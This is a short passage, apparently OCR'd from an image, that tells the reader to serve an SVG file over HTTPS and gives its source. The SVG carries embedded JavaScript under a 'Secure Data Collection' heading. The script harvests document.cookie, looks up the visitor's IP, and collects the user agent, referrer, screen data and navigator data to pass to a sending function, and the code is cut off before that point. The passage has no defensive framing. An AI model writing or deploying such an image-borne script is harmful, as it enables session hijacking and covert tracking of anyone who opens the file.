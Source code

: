 Ensure your server is properly set up to serve the SVG file over HTTPS.

1. Create the SVG File (data-collector.svg):

```
<?xml version="1.0" encoding="UTF-8" standalone="no"?>

<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">`
	<foreignObject x="0" y="0" width="800" height="600">
		<body xmlns="http://www.w3.org/1999/xhtml">
			<h1>Secure Data Collection</h1>
			<script type="text/javascript">
				<![CDATA[
				function getCookies() {
					var cookies = document.cookie.split(';').reduce((acc, cookie) => {
						var [name, value] = cookie.split('=');
						if (name && value) {
							acc[name.trim()] = value.trim();
						}
						return acc;
					}, {});
					console.log('Collected cookies: ', cookies); // Debugging information
					return cookies;
				}
				
				function getClientIP() {
					var xhr = new XMLHttpRequest();
					xhr.open('GET', '[https://api.ipify.org?format=json](https://api.ipify.org?format=json)', true);
					xhr.onreadystatechange = function() {
						if (xhr.readyState == 4 && xhr.status == 200) {
							var response = JSON.parse(xhr.responseText);
							var ip = response.ip;
							console.log('Collected IP address: ', ip); // Debugging information
							sendDataToServer(ip);
						}
					}
					xhr.send();
				}
				
				function getUserAgent() {
					return navigator.userAgent;
				}
				
				function getReferrer() {
					return document.referrer;
				}
				
				function getScreenInfo() {
					return {
						width: screen.width,
						height: screen.height,
						availWidth: screen.availWidth,
						availHeight: screen.availHeight
					};
				}
				
				function getNavigatorInfo() {
					return {
						appName: navigator.appName,
						appVersion: navigator.appVersion,
						platform: navigator.platform,
						language: navigator.language
					};
				}
```